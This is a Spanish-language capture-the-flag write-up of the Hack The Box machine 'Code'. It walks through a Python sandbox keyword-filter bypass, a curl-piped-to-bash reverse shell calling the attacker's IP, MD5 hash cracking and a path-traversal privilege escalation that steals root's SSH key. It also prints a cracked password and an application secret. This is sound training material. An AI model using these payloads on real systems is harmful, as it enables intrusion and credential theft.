








---

# Ficha técnica



| **Campo**                | **Detalle**         |
| ------------------------ | ------------------- |
| **Nombre de la Máquina** | Code                |
| **Dificultad**           | Fácil (Easy)        |
| **Sistema Operativo**    | Linux               |
| **Creador**              | FisMatHack          |
| **Fecha de Lanzamiento** | 22 de Marzo de 2025 |

## Técnicas Empleadas

- **Acceso Inicial:** Evasión de Restricciones (_Python Sandbox Escape / Bypass_).
- **Movimiento Lateral:** Enumeración de bases de datos relacionales locales (`SQLite3`) y _cracking_ de hashes criptográficos (MD5).
- **Escalada de Privilegios:** Análisis de scripts de automatización (`Bash` + `jq`) y explotación de sanitización deficiente mediante _Path Traversal_ no recursivo.

>[!WARNING] **Importante:** Este informe tiene fines puramente educativos. Los procedimientos descritos se realizaron en un entorno controlado (Hack The Box) con el fin de mejorar habilidades en ciberseguridad y auditoría.

---

# 1. Reconocimiento

## Verificación de conectividad

Como en cualquier auditoría de seguridad o prueba de penetración, el primer paso consiste en realizar el reconocimiento del objetivo. En el contexto de un CTF (_Capture The Flag_), la prioridad inicial es verificar la accesibilidad y conectividad de red entre la máquina atacante y el _host_ objetivo. Para este propósito, se utilizó la herramienta `ping`.

**Comando ejecutado:**

```bash
ping -c 4 10.129.33.135
```

**Resultado del comando:**

```bash
PING 10.129.33.135 (10.129.33.135) 56(84) bytes of data.
64 bytes from 10.129.33.135: icmp_seq=1 ttl=63 time=114 ms
64 bytes from 10.129.33.135: icmp_seq=2 ttl=63 time=113 ms
64 bytes from 10.129.33.135: icmp_seq=3 ttl=63 time=176 ms
64 bytes from 10.129.33.135: icmp_seq=4 ttl=63 time=114 ms

--- 10.129.33.135 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3001ms
rtt min/avg/max/mdev = 113.147/129.146/176.001/27.052 ms
```

### Análisis del resultado:

- **Conectividad:** El intercambio exitoso de paquetes (`0% packet loss`) confirma que el objetivo se encuentra activo y accesible en la red a través del protocolo ICMP.
- **Identificación del Sistema Operativo (OS Fingerprinting pasivo):** Las respuestas devuelven un valor **TTL (Time to Live) de 63**. Sabiendo que el TTL inicial por defecto para sistemas basados en **Linux** es de 64, la diferencia de una unidad (`64 - 1`) infiere la presencia de un nodo o dispositivo intermediario (como un _router_ o pasarela) en la ruta, confirmando con un alto grado de certeza que el sistema operativo objetivo es Linux.

---

## Escaneo de puertos

Una vez confirmada la accesibilidad del objetivo, el siguiente paso metodológico consiste en realizar un escaneo de puertos completo. Esto permite identificar la superficie de ataque expuesta mediante el descubrimiento de puertos abiertos y servicios activos. Para este procedimiento se utilizó la herramienta estándar de la industria: `nmap`.

**Comando ejecutado:**

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.33.135
```

### Resultados y análisis

A partir del escaneo se identificaron los siguientes vectores de entrada:

| **Puerto**   | **Estado** | **Servicio (Predeterminado)**        |
| ------------ | ---------- | ------------------------------------ |
| **22/TCP**   | Abierto    | SSH (Secure Shell)                   |
| **5000/TCP** | Abierto    | Desconocido (Servicio personalizado) |

**Análisis técnico:**

- **Puerto 22 (SSH):** Proporciona un canal seguro de administración remota. Suele requerir credenciales válidas o llaves criptográficas (RSA/ED25519) para su explotación, por lo que se mantiene como un vector secundario a menos que se descubra software desactualizado o vulnerabilidades de fuerza bruta.
- **Puerto 5000 (Custom/Desconocido):** Este puerto no cuenta con una asignación estricta por la IANA, pero en entornos de desarrollo y auditorías es altamente probable que aloje:

    - El servidor de desarrollo del _framework_ web **Flask (Python)**.
    - Un registro privado de contenedores **Docker**.
    - Aplicaciones web personalizadas o APIs basadas en Node.js/Express.

---

# 2. Enumeración 

## Enumeración de puertos y servicios

Identificados los puertos vectores, se ejecutó un escaneo dirigido para determinar versiones exactas y aplicar los scripts de reconocimiento del _Nmap Scripting Engine_ (NSE).

**Comando ejecutado:**

```bash
nmap -p22,5000 -sCV 10.129.33.135
```

### Análisis de Resultados

- **Puerto 22/TCP (SSH):**
  
    - **Servicio:** `OpenSSH 8.2p1 Ubuntu` (Codename: _Focal Fossa_).
    - **Impacto:** Confirma la distribución del sistema operativo. No presenta vulnerabilidades públicas de ejecución remota de código (RCE) para esta versión específica, por lo que se descarta temporalmente como vector de entrada directo.

- **Puerto 5000/TCP (HTTP):**
   
    - **Servicio:** Servidor HTTP `Gunicorn 20.0.4`.
    - **Tecnología:** Indica el despliegue de una aplicación web en Python (comúnmente asociada a _frameworks_ como Flask o Django).
    - **Hallazgo crítico:** El elemento `<title>` del HTML expone el software **"Python Code Editor"**.
    - **Impacto:** La presencia de un editor de código interactivo web sugiere un riesgo intrínseco elevado. Si la aplicación ejecuta el código en el servidor sin una correcta sanitización o aislamiento (_sandboxing_), representa un vector directo para una Ejecución Remota de Códigos (**RCE**).

---

## Enumeración Web y Pruebas de Inyección de Código

Ante el hallazgo del servicio en el puerto 5000, se realizó la inspección visual de la interfaz web, confirmando la existencia de un entorno interactivo diseñado para compilar y ejecutar scripts de Python en el servidor.



### Metodología de Evasión de Restricciones (_Bypass_)

Al validar la ejecución de código, se intentó importar la librería estándar `os` para interactuar con el sistema operativo. El servidor bloqueó la solicitud, revelando la presencia de una lista negra (_blacklist_) de palabras prohibidas.

Para determinar el alcance del filtro y verificar si la restricción se aplicaba mediante análisis estático de texto (Strings), se ejecutaron pruebas utilizando la función `print()`:

```python
print("import") - Use of restricted keywords is not allowed.
print("os")     - Use of restricted keywords is not allowed.
print("system") - Use of restricted keywords is not allowed.
```

**Conclusión del análisis:** El mecanismo de seguridad es de tipo **análisis estático superficial**: no evalúa la ejecución real del código, sino que busca coincidencias exactas de cadenas de texto (palabras clave) dentro del script antes de procesarlo. Esto confirma que el vector de **RCE** sigue activo si se logra construir una carga útil (_payload_) mediante técnicas de ofuscación o concatenación que evadan los términos prohibidos.

---

## Prueba de concepto

Para evadir el análisis estático basado en lista negra, se diseñó una carga útil (_payload_) utilizando introspección en Python. A través del objeto `print.__self__` (que apunta al módulo `builtins`), es posible acceder a funciones del sistema sin invocarlas por su nombre literal.

Combinando `getattr()` con la concatenación de cadenas, se logró evadir el filtro que bloqueaba las palabras `import`, `os` y `system`.

**Payload desarrollado:**

```bash
# 1. Importación dinámica de la librería eludiendo la palabra clave
base = getattr(print.__self__, '__imp' + 'ort__')('o' + 's')

# 2. Ejecución de comandos del sistema mediante concatenación
getattr(base, 'sys' + 'tem')('whoami')
```

>[!WARNING] **Buenas prácticas de auditoría:** El desarrollo y depuración de cargas útiles complejas o técnicas de evasión (_bypass_) debe realizarse siempre en un entorno controlado o intérprete local. Esto evita generar ruido innecesario, logs detectables o denegaciones de servicio (DoS) involuntarias en el objetivo.

### Mecanismo de evasión:

1. **`print.__self__`** entrega el módulo `builtins`.
2. **`getattr(builtins, '__imp' + 'ort__')`** concatena los strings, burla el filtro, localiza la función oculta `__import__` y la extrae.
3. El segundo paréntesis **`('o' + 's')`** ejecuta esa función extraída para importar el módulo de sistema operativo (`os`), evadiendo también esa palabra. Todo esto se guarda en la variable `base`.
4. **`getattr(base, 'sys' + 'tem')`** toma el módulo `os` recién importado, busca su función interna `system` mediante concatenación, y finalmente le pasa el comando (`'whoami'`) para ejecutarlo directamente en el servidor.

**En resumen:** Funciona porque engañas al detector pasándole "piezas de texto rompecabezas" que el filtro no reconoce, pero que el intérprete de Python une perfectamente antes de ejecutar los comandos del sistema.

---

# 3. Explotación

La prueba de concepto anterior demuestra la validez teórica de la evasión; sin embargo, al ejecutar comandos como `whoami`, la interfaz web no devuelve el _output_ estándar en pantalla. Nos enfrentamos a un escenario de **Blind RCE** (Ejecución Remota de Comandos a Ciegas).

Para confirmar de forma efectiva que el servidor está procesando las instrucciones, se debe cambiar el enfoque de una explotación basada en respuestas (_Error/In-band based_) a una basada en interacciones externas (_Out-of-Band o OOB_). Esto implica sustituir `whoami` por comandos que fuercen al objetivo a comunicarse de vuelta con la máquina atacante (ej. `ping`, `curl` o `wget`).

## Comprobación de Blind RCE

**Metodología de Verificación Out-of-Band (OOB)**

1. **Preparación del entorno atacante:** Se levanta un tcpdump o un listener en la máquina de auditoría para capturar cualquier tráfico entrante (ICMP o HTTP) proveniente de la IP del objetivo.

```bash
# Opción A: Escuchar trazas ICMP (Ping)
sudo tcpdump -i tun0 icmp

# Opción B: Escuchar peticiones HTTP en el puerto 80
sudo python3 -m http.server 80
```

2. **Modificación del Payload:** Se adapta la PoC para forzar una petición de vuelta. En este caso, se opta por un `curl` hacia el servidor web del atacante (ej. IP `10.10.14.5`).

```bash
base = getattr(print.__self__, '__imp' + 'ort__')('o' + 's')
# Se reemplaza 'whoami' por la interacción externa hacia la IP del atacante
getattr(base, 'sys' + 'tem')('curl http://10.10.14.5/confirmacion_rce')
```

### Resultados

Al ingresar el _payload_ modificado en el editor de código, el servidor web local (`http.server`) desplegado en la máquina atacante registró la siguiente interacción:



### Conclusión Técnica

La recepción de la petición HTTP mediante el método `GET` desde la IP del objetivo (`10.129.33.135`) aporta las siguientes certezas:

- **Evasión de Filtros Exitosa:** El mecanismo de _bypass_ mediante introspección (`print.__self__`) y concatenación eludió por completo la lista negra del backend.
- **Confirmación de RCE (Blind):** Se valida de forma irrefutable que el servidor no solo compila Python, sino que hereda las instrucciones al sistema operativo subyacente a través de la función `system`.
- **Conectividad de Salida:** El objetivo permite conexiones salientes (_outbound_) hacia la máquina atacante, lo que garantiza la viabilidad de una **Reverse Shell** (Conexión Inversa) para obtener acceso interactivo al sistema en el siguiente paso.

----

## Acceso inicial

Una vez confirmada la conectividad saliente y el RCE, el objetivo metodológico es obtener acceso interactivo al sistema mediante una conexión inversa (_Reverse Shell_).

Debido a la restricción de caracteres en el editor y para evitar problemas de truncamiento con símbolos especiales en la línea de comandos (como `>&` o `/dev/tcp`), se optó por un método de explotación en dos etapas (_Two-stage Payload Delivery_): alojar el script malicioso en la máquina atacante y forzar al objetivo a descargarlo y ejecutarlo en memoria en un solo comando.

### Metodología de Despliegue

1. **Preparación del Script de la Reverse Shell (Atacante):**
   
> Se creó un archivo llamado `index.html` que contiene la carga útil en Bash. Al nombrarlo así, el servidor web de Python lo servirá de forma automática como la página raíz.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.77/8081 0>&1
```

2. **Despliegue de los Servicios de Escucha (Atacante)**

> En la máquina de auditoría se abrieron dos terminales independientes:

- **Terminal 1 (Servidor de entrega):** Levanta el servidor HTTP en el puerto 80 para transferir el script.
  
```bash
python3 -m http.server 80
```

**Terminal 2 (Listener):** Inicializa `netcat` a la escucha en el puerto especificado en la _reverse shell_ para recibir la consola del objetivo.

```bash
nc -nlvp 8081
```

3. **Ejecución del Vector de Ataque en el Servidor Objetivo**

> Se ingresó el siguiente _payload_ en el editor de código web. Este utiliza `curl` para descargar el script de la máquina atacante (`10.10.16.77`) y, mediante un _pipe_ (`|`), se lo transfiere directamente al intérprete de `bash` para su ejecución inmediata sin escribir nada en el disco de la víctima.

```bash
test = getattr(print.__self__, '__impo' + 'rt__')('o' + 's')
getattr(test, 'syst' + 'em')('curl http://10.10.16.77 | bash')
```

### Resultado

El servidor web registró la descarga del script y segundos después, el _listener_ de `netcat` capturó la conexión entrante, proporcionando una shell como el usuario: `app-production`.



---

# 4. Post-Explotación

## Movimiento lateral 

Una vez obtenido el acceso inicial, se procedió a realizar la inspección del sistema de archivos local para identificar posibles vectores de escalada de privilegios o movimiento lateral.

Al inspeccionar el código fuente de la aplicación en el archivo `app.py`, se descubrió el uso de una base de datos local SQLite y una llave secreta de configuración:

```bash
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```

### Localización del Archivo de Base de Datos

Para determinar la ubicación absoluta de la base de datos dentro del sistema, se ejecutó una búsqueda exhaustiva redirigiendo el flujo de errores (`stderr`) a `/dev/null`:

**Comando ejecutado:**

```bash
find / -name database.db 2>/dev/null
```

**Resultado:** El archivo se localizó en la ruta `/home/app-production/app/instance/database.db`. La presencia del directorio `/home/app-production/` sugiere la existencia de una cuenta de usuario con el mismo nombre en el sistema operativo.

---
## Enumeración de la base de datos y obtención de hashes

Con la ruta confirmada y aprovechando que el binario de `sqlite3` se encontraba disponible en el entorno, se procedió a auditar el contenido de la base de datos de manera interactiva.

**Comando ejecutado:**

```bash
sqlite3 /home/app-production/app/instance/database.db
```

### Extracción de Datos

Dentro del gestor, se listaron las tablas existentes (`.tables`), identificando las entidades `code` y `user`. Al realizar un volcado de la tabla `user`, se extrajeron los registros correspondientes a dos usuarios junto con sus respectivos _hashes_ de contraseña:

**Credenciales obtenidas:**

- **development :** `759b74ce43947f5f4c91aeddc3e5bad3`
- **martin :** `3de6f30c4a09c27fc71932bfc68474be`

**Siguiente paso lógico:** Analizar la firma y longitud de los hashes (aparentemente cadenas de 32 caracteres hexadecimales compatibles con MD5) para someterlos a un ataque de cracking por fuerza bruta o diccionario (`John the Ripper` / `Hashcat`) y evaluar su reutilización en el servicio SSH o el cambio de usuario local (`su`).

----

## Cracking de Hashes y Movimiento Lateral (SSH)

El análisis de longitud (32 caracteres hexadecimales) y estructura de los _hashes_ recuperados confirmó que corresponden al algoritmo **MD5** (`raw-md5`). Para obtener las contraseñas en texto claro, se procedió a realizar un ataque de diccionario utilizando la herramienta `John the Ripper` y el listado de contraseñas estándar `rockyou.txt`.

**Comando ejecutado:**

```bash
john hashes --format=raw-md5 /usr/share/wordlists/rockyou.txt
```

### Resultados del Cracking

El ataque resolvió exitosamente la credencial del usuario **martin**:

- **Usuario:** `martin`
- **Contraseña:** `nafeelswordsmaster`

### Pivote y Acceso vía SSH

Tras consolidar la credencial en texto claro, se optó por migrar el acceso hacia una sesión **SSH**. Aunque se había realizado el tratamiento y estabilización de la TTY en la _reverse shell_ de `netcat` (usando `script` o `python pty`), la conexión inicial presentaba inestabilidad e interrupciones constantes. El canal SSH garantiza un entorno de trabajo persistente, seguro y con soporte completo de terminal para continuar con la fase de escalada de privilegios.

**Comando de acceso:**

```bash
ssh martin@10.129.33.135
```

---

## Escalada de privilegios

Establecida la sesión SSH como el usuario `martin`, se inició la fase de enumeración del sistema de archivos y privilegios locales para identificar vectores que permitieran el acceso como el usuario administrador (`root`).

### Enumeración de Privilegios `sudo`

Se ejecutó el comando de inspección de permisos delegados:

```bash
sudo -l
```

**Resultado:** Se determinó que el usuario `martin` cuenta con permisos para ejecutar, sin requerir contraseña (`NOPASSWD`), un script específico con privilegios de superusuario:



---

## Análisis Técnico del Script `backy.sh`

El script `/usr/bin/backy.sh` automatiza la creación de respaldos comprimidos de directorios del sistema (restringido teóricamente a rutas como `/var` o `/home`). Para su configuración, el binario lee un archivo de control en formato JSON llamado `task.json`, ubicado en la ruta accesible para el usuario: `/home/martin/backups/task.json`.

Al auditar la lógica de sanitización que el script aplica sobre el archivo JSON, se identificó la siguiente regla de filtrado mediante la herramienta `jq`:

```bash
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```

### Vulnerabilidad: Sanitización No Recursiva (_Path Traversal_)

La expresión regular `gsub("\\.\\./"; "")` busca la coincidencia exacta de la cadena de escape de directorio `../` y la reemplaza por un carácter vacío. Sin embargo, este filtro presenta un fallo de diseño crítico: **no es recursivo**.

Si un atacante introduce la secuencia anidada `....//`, el filtro eliminará la cadena interna `../`, provocando que los caracteres restantes se colapsen y formen nuevamente la secuencia válida `../` en tiempo de ejecución.

Además, el archivo `task.json` original cuenta con una directiva de exclusión que omite archivos ocultos:

```bash
"exclude": [
    ".*"
]
```

---

## Obtención de llave privada (`id_rsa`)

Puesto que el usuario `martin` tiene permisos de escritura sobre `task.json`, el plan de explotación consiste en modificar el archivo para apuntar de forma maliciosa al directorio personal de `root` (`/root`), evadiendo el filtro mediante la secuencia colapsable y eliminando la regla de exclusión para asegurar la copia de archivos ocultos (especialmente llaves SSH privadas).

**Configuración del `task.json` malicioso:**



Tras configurar el archivo `task.json` con la carga útil maliciosa, se procedió a ejecutar el script `/usr/bin/backy.sh` utilizando privilegios de superusuario para procesar la tarea manipulada.

**Comando ejecutado:**

```bash
sudo /usr/bin/backy.sh task.json
```

### Resultados

El script procesó con éxito la ruta ofuscada y generó el archivo comprimido del directorio `/root` dentro de la carpeta de respaldos del usuario. Al listar el destino, se identificó el archivo empaquetado:



```bash
ls -l /home/martin/
# Resultado: code_home_.._root_2026_May.tar.bz2
```

---

## Acceso como el usuario `root` mediante SSH

Con el respaldo generado bajo control del usuario, se procedió a la descompresión del archivo para extraer la llave privada SSH de administración (`id_rsa`).

### Procedimiento de Extracción

1. **Descompresión del respaldo:**

```bash
tar -xf code_home_.._root_2026_May.tar.bz2
```

2. **Asignación de permisos correctos a la llave:** Para que el cliente SSH acepte la llave privada, es indispensable restringir sus permisos de lectura/escritura únicamente al propietario (código de permisos `600`).

```bash
chmod 600 id_rsa
```

3. **Autenticación e Inicio de Sesión:** Se invocó el cliente SSH apuntando a la dirección IP del objetivo e indicando el uso de la identidad extraída mediante el parámetro `-i`.

```bash
ssh -i id_rsa root@10.129.33.135
```

### Compromiso Total del Sistema

Al completar la autenticación, se obtuvo una sesión interactiva con las credenciales del administrador del sistema.



---

# 5. Cierre del Reporte y Ubicación de Evidencias (_Flags_)

Como parte de las buenas prácticas en la documentación de auditorías y para preservar el flujo formativo del entorno de simulación (_CTF_), no se incluye el contenido textual de las banderas de recompensa.

Sin embargo, se valida el compromiso de ambas capas de seguridad mediante la localización exacta de los archivos de trofeo dentro del sistema:

- **User Flag:** Ubicada en el directorio _home_ del usuario de ejecución del servicio web: `/home/app-production/user.txt`
- **Root Flag:** Ubicada en el directorio exclusivo del administrador del sistema: `/root/root.txt`

---


